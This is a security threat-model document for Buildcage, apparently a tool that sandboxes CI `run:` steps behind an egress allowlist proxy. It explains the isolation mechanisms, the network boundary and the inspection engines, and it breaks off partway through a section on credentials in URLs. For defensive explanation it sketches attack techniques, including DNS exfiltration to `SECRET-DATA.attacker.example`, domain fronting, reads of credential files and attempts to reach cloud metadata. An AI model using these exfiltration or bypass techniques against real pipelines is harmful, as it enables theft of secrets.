


# Security Details

This document is the threat model behind Buildcage for `run:` steps: what the sandbox confines, how
a command is kept to its allowlist, and where it stops short. For how to configure the action, see
the [README](../README.md); for implementation internals, see the
[Development Guide](./development.md).

## Contents

- [Threat model](#threat-model)
- [Isolation Mechanisms](#isolation-mechanisms)
- [The network boundary](#the-network-boundary)
- [Engines](#engines)
- [Attempts to get around it](#attempts-to-get-around-it)
- [What the engines cannot see](#what-the-engines-cannot-see)
- [Credentials in a URL](#credentials-in-a-url)
- [Filesystem audit](#filesystem-audit)
- [Hardening](#hardening)
- [Known Limitations](#known-limitations)
- [Image Provenance Verification](#image-provenance-verification)

## Threat model

This action governs the command it wraps: a `run:` step's shell command and everything it pulls in,
a dependency's `postinstall` script included. It decides which destinations that command can reach,
and records what it tried.

The difference from a Docker-build tool is that the command is not already inside a container. It is
a full shell command chosen by the workflow author, running with the same privileges as the Actions
runner, so restricting its network alone would not be enough: the command also has to be unable to
leave by other means, whether by escalating privileges, reaching the Docker socket, or reading
another process's memory. See [Isolation Mechanisms](#isolation-mechanisms).

The design goal is to bolt egress control onto an existing step without changing how the rest of the
job works. A step that configures AWS credentials, an npm cache directory, or anything else keeps
running exactly as it did. That is why UID/GID and `$HOME` are preserved rather than switched to a
dedicated sandbox account: tools and caches that assume the runner's own identity keep working
unmodified.

Four things sit outside the model by design.

- **Whoever writes the workflow.** The allowlist is configured alongside the command, by the same
  people, so Buildcage is not a control against them. A `config_file` is no different. On
  `pull_request_target`, and `workflow_run` triggered by a pull request, the workspace may hold the
  pull request's own code, so `config_file` is refused there. On other events it is read from
  whatever the workflow checked out, so whoever can write that copy sets the rules.
- **Another step in the same job.** A compromised or untrustworthy action running as another step
  can use `docker exec` or `docker cp`, or the host root a passwordless-sudo runner grants by
  default, to tamper with the proxy container's state, most notably its traffic log. Sigstore proves
  the image was genuine at startup, not afterwards. The report refuses a log that doesn't start
  where a real proxy run would, which catches wholesale erasure, but not a format-aware forgery.
  The defense here is procedural: don't place an untrusted step immediately around this action.
- **What the command reads.** It restricts where the command can send data, not what it can open, so
  a compromised dependency can still read `~/.aws/credentials` or `~/.docker/config.json`; it just
  cannot send them anywhere outside the allowlist. See
  [What the sandbox does not stop](#what-the-sandbox-does-not-stop).
- **How much of the machine it uses.** No CPU, memory or pids ceiling is set, and an unwrapped
  `run:` step has none either. See [What the sandbox does not stop](#what-the-sandbox-does-not-stop).

There is also a structural limit no rule set fixes. An allowlist decides destinations, so it cannot
tell a legitimate use of an allowed destination from an abusive one, and anything leaving through a
service you had to allow anyway still leaves. What it does stop is traffic to a destination that is
not on the list, and infrastructure an attacker set up is normally not on it, because the command
has no reason to reach it. That is also the hardest kind of leak to find afterwards, which is why
closing it is worth doing even though the rest stays open. [Hardening](#hardening) is about making
the set of destinations a step needs smaller.

## Isolation Mechanisms



The isolated command runs as an [OCI](https://github.com/opencontainers/runtime-spec) container
under [runc](https://github.com/opencontainers/runc) rather than being wrapped directly by
`unshare`/`setpriv` on the runner host. `run-isolated.sh` only sets up what runc cannot: wiring a
veth pair into the proxy container's own netns, and bind-mounting the host's own `/` for runc's
rootfs, since `pivot_root` cannot target `/` itself. It re-execs into a fresh, private mount
namespace before touching either, so that work is invisible to every other `run:` step running
concurrently. Everything below is declared in an OCI `config.json` and enforced by runc natively.

Each step gets a proxy container of its own, named explicitly on every `docker compose` invocation
rather than through a directory-derived Compose project, so concurrent steps never recreate or tear
down each other's. Everything the sandbox needs on the host, `runc` and the seccomp generator
included, is extracted from the proxy image into that step's own scratch directory on each
invocation, so no step inherits anything another one left behind.

### Privileges dropped

- **Capability bounding set fully cleared**, all five capability sets emptied before the command
  executes. This is what makes privilege escalation impossible: even if the command invokes `sudo`
  or a setuid binary, there is no `CAP_NET_ADMIN` or `CAP_SYS_ADMIN` left to acquire, whatever the
  resulting effective UID. `no_new_privileges` is set alongside it, so setuid binaries and file
  capabilities cannot grant anything in an edge case the capability drop misses.
- **Seccomp filter** derived from Docker's own default profile, resolved against an empty capability
  set to match that drop, so any syscall the profile allows only for a _held_ capability is excluded
  outright. This closes the gap historical `io_uring` and unprivileged user-namespace CVEs relied
  on: `unshare(2)`/`clone(2)` with `CLONE_NEWUSER` and the `io_uring_*` family are not in the
  resulting allowlist at all. It is generated at action startup rather than baked into the image,
  since a handful of the profile's rules are gated on the running kernel version.
- **Groups cleared, and the primary group checked too.** Supplementary group membership is dropped,
  but a runner's own user could have `docker` (or another container or VM runtime group) as its
  _primary_ group, which is equivalent to root: the daemon will mount `/` into a privileged
  container for anyone who can reach its socket, capabilities or not. The primary GID is therefore
  checked against the group names known to grant that (`docker`, `containerd`, `podman`, `lxd`,
  `libvirt`, `kvm`, `sudo`, `wheel` and a few more), looked up in `/etc/group` and through NSS so
  a group from LDAP or SSSD counts too, and against the owning GID of any runtime socket
  actually present, and the command runs under `nogroup`/`nobody`/65534 instead when it matches. If
  NSS cannot answer (an LDAP or SSSD outage, say), the primary GID is substituted the same way with a
  warning, since a group only NSS knows about can't be ruled out. If none of those substitutes is
  safe either, the sandbox refuses to start.
- **A root runner is refused.** The sandbox keeps the runner's own uid so tools and caches that
  assume its identity keep working, but that leaves no user-namespace remapping: as uid 0 the dropped
  capabilities still don't help, because the kernel's DAC is what guards root-owned host sockets like
  `/run/systemd/private`, and root passes it. Reaching that socket starts a systemd unit outside
  every namespace, so the sandbox refuses to start under uid 0 rather than run without the guarantee.
  In practice this means a self-hosted runner started as root (`RUNNER_ALLOW_RUNASROOT`).
- **The host's `/run` is covered by an empty tmpfs.** `mount --rbind /` sweeps the runner's whole
  `/run` in, and every host service keeps a Unix socket there: systemd-resolved's Varlink resolver
  (which would answer lookups from the runner's own resolver, past the proxy; see
  [DNS never leaves the job](#dns-never-leaves-the-job)), snapd, the container runtimes, the D-Bus
  system bus, and whatever a future daemon adds. Covering `/run` denies them all at once instead of
  enumerating each. A read-only bind would not do: `connect(2)`'s permission check reads the write
  bits, which `mount -o ro` leaves untouched. Only `/run/lock` (writable, where tools lock via
  `/var/lock`) and the proxy's own `resolv.conf` (which `/etc/resolv.conf` symlinks into `/run`) are
  added back. `/var/run` is a symlink to `/run` on every mainstream distribution, so it is covered
  too; on a host where it is a separate directory, that directory gets the same empty tmpfs. A
  `write_through:` entry re-exposes what it names on top: `/run/<x>` one path, `/run` the whole
  directory, `write_through: /` the whole host. Re-exposing a daemon socket reopens egress through
  it, and re-exposing all of `/run` leaves the outbound restriction nearly pointless, so it is the
  caller's deliberate call; by default none of it is reachable. The `/proc` masks below are
  separate: they guard kernel-memory reads, not filesystem access, and hold even under
  `write_through: /`.
- **`$XDG_RUNTIME_DIR` is masked when it sits outside `/run`**, which a self-hosted runner may point
  under `/tmp` or `$HOME`. Rootless Docker and Podman and a `systemd --user` session bus keep their
  sockets there, and reaching that bus lets a compromised command start a unit outside every
  namespace, so the whole directory is replaced with an empty one. Only a `write_through:` entry
  naming that directory itself, or `/`, lifts the mask, so it stays masked although `/tmp` and
  `$HOME` are writable. A socket a workflow places elsewhere outside `/run` stays reachable (an
  `ssh-agent` under `$TMPDIR`, say); see
  [What the sandbox does not stop](#what-the-sandbox-does-not-stop).

### What it can see

- **Its own PID namespace.** This is not about hiding processes from `ps`: the kernel structurally
  forbids tracing or reading `/proc/<pid>/mem` for a process outside the tracer's own PID
  namespace lineage, whatever its capabilities, which closes off memory-dump attacks against the
  Actions runner process itself.
- **Sensitive `/proc` paths masked**, extending runc's own defaults with `/proc/kcore`,
  `/proc/kallsyms`, `/proc/kmsg`, `/proc/sysrq-trigger`, `/proc/timer_list` and `/proc/keys`.
- **No other step's sandbox bundle.** `/var/tmp/buildcage-<uid>`, where every run's bundle is
  staged, is covered with an empty tmpfs inside the sandbox, with only this run's own `exec/`
  revealed back on top, read-only. Without it the host `/` below would hand every step a readable
  copy of every concurrent step's bundle, and their 0700 modes would not help, since every sandbox
  on a runner shares one real UID. The reveal is a non-recursive `bind`, which keeps the
  `mount --rbind /` rootfs staged beside it from coming back in as a second, writable host root.
  Any other path the host mount table shows the same directory at is covered the same way: with
  `/var/tmp` bind-mounted onto `/tmp`, a common hardening step, `/tmp/buildcage-<uid>` would
  otherwise hand the sandbox the directory through a writable path.
- **No list of the sandboxes beside it.** `ip netns add` leaves each namespace's name under the
  host's `/run/netns`, which the `/run` tmpfs hides with the rest. Defense in depth rather than a
  boundary anything rests on.

### What it can write

`$GITHUB_WORKSPACE`, `$HOME`, `/tmp` and `$RUNNER_TEMP` are bind-mounted as writable exceptions on
top of a read-only root, applied by runc itself. This closes off tampering with anything outside
those paths, such as rewriting a binary earlier on `$PATH` to plant a payload for a later,
un-sandboxed step. The rest of the host filesystem stays fully _visible_ so existing tools keep
working; only writes are restricted. The writable exceptions are recursive bind-mounts, so a
separate host mount under one stays writable too, and every other host mount is forced read-only.
The four are taken as the directories they really resolve to, which is how the host's mount table
names them, so a symlinked `$HOME` does not turn a mount under it read-only. The sandbox's own
rootfs staging directory is never one of them, so that recursion cannot re-expose the host `/` as a
writable copy.

`write_through:` adds further paths for tools that need to write elsewhere, and `/` disables the
restriction entirely. The sandbox's own mounts outrank it: `/etc/resolv.conf` and, under `inspect`,
the augmented system CA store, CA directories, JVM keystores and NSS database are mounted after every
writable exception, so `write_through: /etc` cannot take the sandbox's DNS or CA trust with it. The
CA-only file sits under the sandbox's own `/dev`. Naming one of those paths directly, or a filesystem
runc mounts fresh such as `/proc` or `/dev`, fails the step rather than being silently overridden;
without that, `write_through: /proc` would shadow the sandbox's procfs with the host's and undo the
PID-namespace separation above. The NSS database's directory is the exception: naming it has the
command's changes to it written back.

An entry that is a symlink, or goes through one, fails the step: runc follows symlinks in a mount's
source and destination, so the mount would land wherever the symlink leads. An earlier step can
plant one where it writes, pointing at `/proc` or at a directory the sandbox keeps read-only but the
runner user can write anyway (`/usr/local/bin` and `/opt/hostedtoolcache` are world-writable on
GitHub-hosted runners). The error names the path the symlink leads to, which can be written instead.
The part of an entry that is `$HOME`, `$GITHUB_WORKSPACE` or `$RUNNER_TEMP` is taken at its real
path, as the persistent writable set is, so only what the entry adds below one is checked. A missing
entry is created by the runner when it can write the nearest existing parent, and fails the step
otherwise. A process an earlier step of this job left running, or another job running as the same
user on the same machine, can still swap a directory for a symlink between the check and the
mount; see [Threat model](#threat-model) and [Where it will not run](#where-it-will-not-run).

After the command exits, the step keeps running on the host to read the report and tear the
sandbox down, so what it runs is kept out of those paths:

- `docker` and `sudo` are pinned, before either first runs, to a binary outside
  `$GITHUB_WORKSPACE`, `$HOME`, `/tmp`, `$RUNNER_TEMP` and `write_through:`. This applies in
  `ephemeral` mode too, since an earlier step's writes there survive. The step fails if either is on
  `$PATH` only inside those paths. The post step pins them again. Both also run with `PATH`
  stripped of those paths and of any entry through a symlink in them: `sudo` resolves what it runs
  there when sudoers sets no `secure_path`, and `docker` finds its `docker-credential-*` helpers
  there. `sudo` gets the system directories and `docker` the step's own `$PATH`, so a helper
  installed only under those paths is not found. A helper that is a symlink into them is not
  caught. `write_through: /` turns all of this off, since no path is left outside them.
- Under `inspect`, the `keytool` that adds the CA to the JVM keystores is pinned the same way,
  `$JAVA_HOME/bin` before `$PATH`, and runs with an empty environment, so the command's
  `JAVA_TOOL_OPTIONS` or `LD_PRELOAD` stays inside the sandbox. Without one, the step skips the
  keystores and warns. `java` is never run: its keystore is found by following its symlinks. `write_through: /` turns
  this pinning off too.
- Under `inspect`, Chromium's NSS database gets a read-only slot on one the proxy's `certutil` made
  from the CA certificate alone, appended to a copy of its `pkcs11.txt`. The runner's database, which
  an earlier step may have written, is never parsed: its files are copied, and the slot's bytes are
  taken back out of `pkcs11.txt`, which is text, before the copy is written back as the runner user.
  One the runner user cannot write gets no slot, and the step warns. A symlink on the path leaves it
  unmounted, the path is checked again before anything is written back, and the mount point is
  created and removed as the runner user, never through `sudo`.
- The runner's install directory, which holds the `node` later JavaScript actions and post steps
  run on, the runner's `_actions` directory, which holds every action's checkout, and the docker
  CLI's config directory (`$DOCKER_CONFIG`, else `~/.docker`), which holds its plugins, are
  read-only inside the sandbox, unless `write_through:` names the directory itself or `uses: ./`
  makes this action's checkout the workspace. The workspace, `$RUNNER_TEMP` or a `write_through:`
  entry inside one stays writable. The writable directories above them are made mount points, so
  they cannot be renamed away. A read-only mount protects only a symlink's target, so a symlink on
  the way to any of them that sits in a writable path, where the command could replace it with a
  directory of its own, fails the step before the command runs. Where the host bind-mounts one of
  them, or a directory above it, to a second path in a writable directory, that path is read-only
  too.
- `run-isolated.sh`, which runs as root, runs from a copy the sandbox cannot see.

A command that writes the docker config (`docker login`, `gcloud auth configure-docker`) therefore
fails in `persistent` mode; give it a step of its own.

All of this is `filesystem_mode: persistent`, the default and the stable mode.
`filesystem_mode: ephemeral` (**experimental**) replaces it with an overlay that discards every
write not named in `write_through:`, closing off using a writable exception itself to plant a
payload for a later step. See [Filesystem access](../README.md#filesystem-access).

### What it keeps from the runner

- **UID and GID**, rather than a dedicated unprivileged account: `actions/setup-node` toolchains,
  `$GITHUB_WORKSPACE` file ownership and `$HOME`-based caches all assume the runner's own UID.
  Isolation comes from the capability, group and namespace mechanisms above, not from UID
  separation. No user namespace is created for this either, since that would hand the command back a
  namespace-local root identity through the very unprivileged `CLONE_NEWUSER` primitive the seccomp
  filter closes off.
- **The process environment a step would have had.** `runc spec`'s defaults are written for
  containers, not for a step on the runner's own machine, so the OCI spec carries the runner's own
  `RLIMIT_NOFILE` (read from the process that started the action, since Node raises its own soft
  limit before any JavaScript runs), a `/dev/shm` sized from the host's rather than runc's 64MB cap,
  and the runner's hostname. Both runc's default spec and the `sudo` on the way to it would
  otherwise pin `RLIMIT_NOFILE` at 1024 against a runner's 65536, which surfaces as `EMFILE` in
  webpack and jest, and Chromium crashes under a 64MB `/dev/shm`. None of this is a boundary
  anything rests on. `/dev` itself stays a fresh minimal device set, so host device nodes such as
  `/dev/kvm`, `/dev/fuse` and `/dev/dri` are absent; each needs a capability the sandbox has dropped
  or a group the GID substitution replaces, and bind-mounting the host's `/dev` would expose raw
  block devices.
- **Not the runner-only credentials.** This is a JavaScript action, and the runner hands one
  variables it does not hand a `run:` step: `ACTIONS_RUNTIME_TOKEN`, which reaches the run's
  artifacts and cache, plus the `ACTIONS_*` endpoint variables it is spent against. Those are
  dropped before the environment is assembled, as are this action's own `INPUT_*` inputs, so
  wrapping a step only ever narrows what it can reach. `ACTIONS_ID_TOKEN_REQUEST_URL` and anything
  else the runner sets still arrives: this is a named list rather than a sweep over `ACTIONS_*`,
  which would rest on guessing which of them a `run:` step legitimately sees.
- **A command that is not PID 1.** The kernel drops any signal a PID namespace's PID 1 has no
  handler for, SIGKILL from inside included, and hands it every orphan to reap. `buildcage-init`
  stays PID 1 and runs the command as its child, so `kill -TERM $$` works and a python or node
  shebang leaves no zombies. It forwards `SIGTERM` and `SIGINT` to every other process in the
  sandbox, one the command moved out of its process group with `setsid` included, and `SIGHUP`,
  `SIGQUIT`, `SIGUSR1` and `SIGUSR2` to that process group, so what the command runs gets them
  too. It exits with the command's status, `128+n` if a signal killed it. After forwarding
  `SIGTERM` or `SIGINT`, it first waits for all of them to exit.

What is left is piped to the sandboxed process over stdin as NUL-delimited `KEY=VALUE` records,
rather than written into `config.json`, so an `env:` secret never reaches the runner's disk.
`buildcage-init` hands them to the run script through `env -i` instead of exporting them itself, so
a name bash reserves (`UID`, `SECONDS`) arrives as set, as it does in an unwrapped `run:` step.

### When the step ends

An exit trap tears down the container, the rootfs bind-mount, the veth and the network namespace,
and force-detaches anything still mounted under the run's scratch directory before deleting it. A
cancelled step goes the same way: the action catches the runner's signal, `SIGTERM` reaches every
process the command started, the whole sandbox is killed if it is still running 5 seconds later, and
then the action writes the traffic report and stops the proxy as usual. If the action is killed
first, a fallback step reads the container's identity back from job state, stops the proxy and
deletes the scratch directory, but nothing stops the sandbox. `sudo`, `run-isolated.sh` and the
command are left running, still confined and with no network once the proxy is gone, and the command
can go on writing to the host's files while an `if: always()` step or a post step runs: every
writable path in `persistent` mode, the `write_through:` ones in `ephemeral`. That takes the action
being killed within those 5 seconds, before it kills the sandbox itself. The command's own life is tied to `run-isolated.sh`'s by a two-hop
`setpriv --pdeathsig=KILL` chain, so an out-of-memory kill on the script takes the whole sandboxed
process tree with it rather than leaving orphans.

## The network boundary

The isolated command runs in its own network namespace, connected to the proxy container's netns by
a dedicated veth pair. There is no bridge: it is always a 1:1 connection, one sandbox to one proxy.
The namespaces come from runc's default spec, and the step fails before the sandbox starts if that
spec stops giving it a new network, PID, mount, IPC or UTS namespace. The proxy's netns is
referenced by Docker's own `NetworkSettings.SandboxKey` path rather than by PID, which Docker holds
for the container's whole lifetime, so it cannot be silently reused if the proxy dies before the
sandbox starts. iptables sends all TCP to a single listener and drops everything else, and that
veth is the sandbox's only route to any network at all.

Nothing in the command has to be told about a proxy: interception is at the network level, so the
`HTTP_PROXY` family of variables is not what puts a request in front of the rules, and ignoring them
changes nothing.

### The proxy chooses the destination, not the command

A rule matches on the name the request carried, the SNI or the `Host` header. Once it has passed,
HAProxy resolves that name itself and rewrites the destination to the result (`do-resolve` and
`set-dst`), so the address the command chose is discarded. A forged `Host`, a doctored `/etc/hosts`,
or an SNI naming one host while the connection aims at another all reach the server the name belongs
to: destination spoofing is removed rather than detected. A connection an `allowed_ip_rules` entry
covers is the one exception: that rule names the address itself, so the connection goes there
whatever name it carries. A name with anything but letters, digits,
`.`, `_` and `-` in it never reaches a rule, in `audit` too: `universal` refuses such an SNI
(`invalid-sni`) or plaintext `Host` (`invalid-host`), and `inspect` never passes one through and
refuses such a `Host` (`invalid-host`).
A `:` in the name could otherwise let a `~` rule's port pattern match a name the proxy then looks up.

That order is an invariant, not an optimisation. Reversed, resolution would become the exfiltration
channel the resolver below exists to prevent, so a name a request would be refused for never
triggers a real DNS query.

Where the proxy resolves is the proxy container's own `/etc/resolv.conf`. On a runner that is
Docker's embedded DNS forwarding to the runner's own resolvers, so a name only an internal resolver
knows still resolves, and the query follows the runner's own DNS policy. There is no search-domain
expansion, so a rule has to name a host in full.

### DNS never leaves the job

The resolver inside the sandbox's network has no upstream at all, and answers every query, on the
allowlist or not, with the proxy's own address. A lookup by itself therefore cannot carry anything
out: `SECRET-DATA.attacker.example` would otherwise reach an attacker's own nameserver the moment it
was forwarded. Answering a name outside the allowlist the same way as one inside is deliberate too,
so that the request which follows is recorded with its URL before it is refused.

No discovery record is returned either. Having no upstream, the resolver has nothing to answer an
`SRV`, `TXT`, `TLSA` or `URI` query with, which is load-bearing rather than incidental:
`_http._tcp.deb.debian.org` really does carry an `SRV` record pointing at `debian.map.fastlydns.net`,
and a command that followed it would connect to a name no allowlist mentions. A client that cannot
fall back, such as a `mongodb+srv://` connection string, does not work inside the cage; see
[Service discovery](../README.md#service-discovery).

### A name may not resolve inward

An allowlisted name that resolves to loopback, link-local (AWS/GCP/Azure IMDS), CGNAT (Alibaba
IMDS), the IETF protocol block (Oracle IMDS), Azure's WireServer (`168.63.129.16`), the proxy's own
network (`198.19.255.0/24`, the proxy's and the step's own link), or **an address the runner itself holds** is refused, reported as `internal-address`, in `audit` too. A name under an
attacker's control, or DNS for an allowlisted domain that has been compromised, therefore cannot
turn the proxy into a route to cloud metadata or back into the runner. The rest of RFC1918 is
deliberately exempt: a name pointing at an internal mirror is a real, intended setup.

The runner's addresses come from two places, because neither sees all of them: the action reads the
runner's interfaces before starting the proxy, and the engine adds the gateway of the network Docker
then put it on, which did not exist when the action looked. The engine also adds the proxy's own
address on that network, which Docker's DNS returns for the proxy's service and container names, so
a request naming them cannot loop the proxy into itself. A published container port is DNAT'd, so
it answers on every one of them.

Two consequences worth knowing:

- **An internal mirror running on the runner itself is no longer reachable by name.** Name it with
  `allowed_ip_rules` instead, which skips this guard. The same applies to a public name
  that resolves to the runner's own public address, which a self-hosted runner may well have.
- The list is read once at startup, and on a containerised runner it holds that container's
  addresses rather than the real host's.

This guard is about a _name_ landing somewhere it never should. Under `inspect`, a rule whose host
is a literal address, such as `169.254.169.254:80`, exempts the requests it matches, in `audit` too,
except in the proxy's own network (`198.19.255.0/24`) and on port `10024` of any internal address: a
rule naming the proxy's listener would loop it into itself. A wildcard or regex that merely admits
the address, `**:80` or `~^.*:80$`, is not. Under `universal`, no rule does. Reaching a cloud
metadata endpoint directly, the way any AWS or GCP SDK does, is not what this is meant to stop, and
`allowed_ip_rules` is the intended path for it. That path skips this guard except for the listener:
a connection to port `10024` of an internal address is refused there too, whatever the IP rules say
and in `audit` as well.

### Only TCP gets out

Everything that is not TCP is dropped before it reaches the proxy, so ICMP, raw UDP and QUIC have no
exit path at all; port 53 to the gateway, which is the resolver, is the one exception. IPv6 is
dropped by equivalent `ip6tables` rules, AAAA lookups are answered with no records,
and the proxy reaches allowed names over IPv4 only. The cost of that last part is in
[Known Limitations](#known-limitations) below.

## Engines

The engines differ in how much of a connection a rule gets to see. `universal` reads the name at the
front of it; `inspect` terminates TLS and reads the request. For choosing between them, see
[Engines](../README.md#engines).

### Universal proxy engine

The engine to fall back to when something in the command cannot accept the `inspect` engine's CA. It
decrypts nothing: HAProxy classifies each connection by what it can read at the front of it, then
checks that against the allowlist.

- **HTTPS**: the SNI from the TLS ClientHello, read without terminating the connection, so the
  command validates the origin's own certificate itself. Checked against `allowed_https_rules`.
- **HTTP**: the `Host` header, checked against `allowed_http_rules`. A request carrying none is
  refused with 400, since there is nothing to check it against.
- **A connection to a bare address**: nothing at all. It skipped DNS, so there is no name to read.
  It is matched against `allowed_ip_rules` as `ip:port` and, when nothing matches, refused. The
  address is the one the connection goes to; an SNI it carries is ignored, since the client chose it.

Because nothing in the command has to trust an injected CA or be told about a proxy, this engine
covers any language or package manager, a pinned certificate included.

A connection to a bare address never reaches the
[inward-resolution guard](#a-name-may-not-resolve-inward): it skips DNS and `do-resolve` entirely,
on a separate code path, and `allowed_ip_rules` is what decides it.

### Inspect proxy engine



The default engine. The same sandbox and the same network boundary, but the proxy terminates TLS
instead of only reading the SNI, so a rule can check the method and the full URL rather than only the
destination. One listener takes both TLS and plaintext, told apart by the first bytes of the
connection, so an audit run records everything without being configured for it first.

| Rule                  | What it permits                            | Decided by           | Decrypted |
| --------------------- | ------------------------------------------ | -------------------- | --------- |
| `allowed_https_rules` | any method and path on the host, over TLS  | Host header          | yes       |
| `allowed_http_rules`  | any method and path on the host, plaintext | Host header          | n/a       |
| `allowed_url_rules`   | the named methods on matching URLs         | Host header and path | yes       |
| `allowed_tls_rules`   | TLS to the named host and port             | SNI and port         | **no**    |
| `allowed_ip_rules`    | TCP to the address and port, any protocol  | address and port     | **no**    |

Three mechanisms make that enforceable:

- **The certificate the command sees is generated from the SNI alone**, so a refused destination is
  never contacted. The only path that reaches an origin is the backend, after a request has already
  passed the rules, and the origin's own certificate is checked on that connection.
- **The path is normalized before the rules see it**: `%2e` is decoded and `..` segments are
  removed. A `..` joined to an encoded separator (`..%2f`, `..%5c`) or to `;`, and any backslash, is
  refused. Encodings HAProxy does not decode, such as a double-encoded `%252e`, `%00` or an
  overlong UTF-8 dot, reach the origin as written and matter only to an origin that decodes them
  again.
- **The CA is mounted, never written to the host.** This is where the engine differs most from
  `buildcage/docker`'s, whose runc wrapper can write the CA into a disposable rootfs layer. Here the
  sandbox rootfs is a bind-mount of the real host root, so the CA, and where relevant an augmented
  copy of the system CA store, is written into this run's own scratch directory and mounted _over_
  the sandbox's view of the relevant paths: a mount-namespace-scoped overlay, not a host write.
  Teardown removes it with the rest of the mount namespace, and the real host files those paths
  would resolve to are never touched. See [CA trust variables](./reference.md#ca-trust-variables)
  for which variables are set and what that does not cover.

A wide host rule paired with a narrow path or method does not narrow the DNS side. DNS has no notion
of a path, so a name under an allowed `*.example.com` is logged as allowed the moment it is looked
up, before any path is known. The request that follows is still refused and still never reaches an
origin; only the log line reflects the host-only nature of that decision. See
[Rule syntax](./reference.md#rule-syntax) for how to write a host pattern that doesn't widen this
more than intended.

An allowed AWS API host serves every AWS account, so a step can sign requests to it with a key of its
own and have AWS record what it sends in that account's CloudTrail. `aws_key_check` refuses a request
signed with any key but the step's own and those STS issues for roles in `allowed_aws_role_accounts`.
It cannot see which account a request's resource belongs to, so IAM has to close the rest; see
[AWS access key check](./aws.md).

#### The CA and its private key

The CA and its key are generated fresh when this step's proxy container is created. The CA is valid
for two days, so a copy that escapes cleanup soon stops being trusted. Its private key never leaves
the container: HAProxy signs each per-SNI certificate with it, and only the certificate is copied
out, into this run's scratch directory. The step removes the container with `docker compose down`
before it ends, and the key with it.

## Attempts to get around it

| What the isolated command does                                                                     | What happens                                                                                                                                                           |
| -------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Asks for any name, on or off the allowlist                                                         | Answered locally with the proxy's own address; the query is never forwarded, allowed or not                                                                            |
| Requests a host no rule covers                                                                     | Refused, origin never contacted; `inspect` records the URL it asked for                                                                                                |
| Requests a path or method no rule covers                                                           | **403** under `inspect`, recorded with its URL; `universal` reads neither and enforces on the host                                                                     |
| Walks out of an allowed path with `..` or `%2e%2e`                                                 | **403**: the path is normalised before the rules see it, and a `..` joined to an encoded separator or `;` is refused, as is any backslash                              |
| Sends an allowed name while aiming elsewhere, or points `/etc/hosts` at an address of its choosing | Reaches the address the proxy resolved; the command's own choice of address is discarded                                                                               |
| Puts an address in the `Host` header                                                               | Taken as the destination once a rule allows it; an internal one only if a rule names it as its host                                                                    |
| Allowlists a name that resolves to an internal address                                             | Refused if it lands on loopback, link-local, the proxy itself, an address the runner holds, or another never-public range, in `audit` too                              |
| Reaches an allowed host presenting a wrong certificate                                             | **503** under `inspect`, which checks the origin's certificate when it connects and fails the step; under `universal` the command validates it itself                  |
| Presents a wrong certificate and then stops answering, to look like an outage                      | Still fails the step: a connection `inspect` never completed is one whose origin it never authenticated, so it is refused whether or not the error survived            |
| Uses ECH to conceal the real SNI                                                                   | Reaches whatever the outer SNI resolved to, and that outer name still has to be allowed; the type 65 record carrying ECHConfig is never returned either                |
| Encodes data into DNS queries                                                                      | Answered locally and never forwarded; an outside resolver is unreachable                                                                                               |
| Uses DNS over TLS or DNS over HTTPS                                                                | Redirected to the proxy like any other TCP and checked on its SNI, so an outside resolver is reachable only if its own host and port are allowlisted                   |
| Tunnels over ICMP, raw UDP or QUIC, or falls back to IPv6                                          | Dropped before the proxy; only TCP is redirected to it, and the proxy reaches allowed names over IPv4                                                                  |
| Connects to a raw address                                                                          | Checked against `allowed_ip_rules`, and refused when nothing matches                                                                                                   |
| Speaks something that is not HTTP to a port no rule covers                                         | Read as a request by the stage it is handed to and refused, on both engines, and the refusal is counted like any other                                                 |
| Escalates privileges, or reaches a container runtime socket                                        | Nothing to escalate to: every capability set is empty, and the host's `/run`, where the sockets live, is an empty tmpfs                                                |
| Reads another process's memory                                                                     | Structurally refused by the kernel across a PID namespace boundary, capabilities or not                                                                                |
| Ignores the proxy variables entirely                                                               | No effect: interception is at the network level, not opt-in                                                                                                            |
| Sends `*` as its method, `Host` or path in audit, to plant a wildcard in the suggested rules       | Left out of the suggested `allowed_url_rules` and listed beside it, so pasting them never permits more than the command sent                                           |
| Floods the proxy log until earlier entries rotate away                                             | A log that no longer starts where a real run does is not accepted as a complete record: the step fails under `restrict` with `fail_on_blocked` (the default)           |
| Removes or locks `$GITHUB_STEP_SUMMARY` so no report is written                                    | The outcome is decided first, a summary that cannot be written fails the step under `restrict` with `fail_on_blocked`, and a requested artifact is still uploaded      |
| Writes its own `traffic_artifact_name` to `$GITHUB_OUTPUT`                                         | Overwritten after the command exits, with an empty value when no artifact was uploaded; if the overwrite fails, the step fails under `restrict` with `fail_on_blocked` |

## What the engines cannot see

### Domain fronting

`universal` reads the SNI but cannot decrypt what follows, and the `Host` header that would reveal
the real target is inside the tunnel:

```
1. ClientHello SNI: allowed.example.com     ← all Buildcage sees → allowed
2. HTTP Host header: malicious.example.com  ← encrypted, not inspectable
3. The CDN routes on the Host header        → reaches the attacker's server
```

For this to work, the allowed domain and the target domain have to sit on the same CDN or hosting
infrastructure. Closing the gap needs the proxy to terminate TLS and read that header, which is what
[`inspect`](#inspect-proxy-engine) does: `allowed_url_rules` matches on the real `Host`, so a
fronted request lands outside any host rule it was written for.

Staying on `universal`, allow as few domains as you can, and prefer a service's own domain
(`registry.npmjs.org`) to a broad CDN wildcard. Check what your CDN provider does about fronting
today, and re-run [audit mode](../README.md#operation-modes) periodically to notice a connection
pattern that has changed.

### Passthrough rules are an uninspected pipe

`allowed_tls_rules` and `allowed_ip_rules` are passed through as raw TCP and recorded with a byte
count and nothing more, since neither carries a name the proxy could re-terminate TLS for. Once an
`ip:port` pair is allowlisted, any TCP-based protocol can use that path, and its protocol is never
checked. Prefer domain rules, and keep `allowed_ip_rules` for destinations that genuinely have no
stable hostname.

`universal` sees nothing inside any tunnel, not only these: a rule reaches as far as a host and a
port, so the method and the path are neither enforced nor reported.

### `inspect` cannot work with everything, in either mode

TLS is terminated, so a tool that pins a certificate, or ships a bundled trust store it never lets
the system update, will not work. The JVM and Chromium read their own trust stores rather than the
system one, and only some of those stores get the CA.
[Limitations](../README.md#under-the-inspect-engine) says which, and has the rest of the
compatibility picture.

`audit` is not a passive observer here either. TLS is terminated in both modes, so a tool that
cannot accept the CA fails under `audit` exactly as it would under `restrict`. What `audit` drops is
the rule ACLs, not the interception: `set-dst`, the origin certificate check and the
[inward-resolution guard](#a-name-may-not-resolve-inward) all stay, because none of them can be
dropped honestly.

### No content digests

Nothing here attests to what a request returned, only that it was made and to what. Query strings
are kept in the log, since that is also where an exfiltration payload would go; the report is the
exception, see below.

## Credentials in a URL

**Communication details** prints the URL of every request, so a credential written into a query
string reaches everyone who can read the run. GitHub masks the values it knows as workflow secrets,
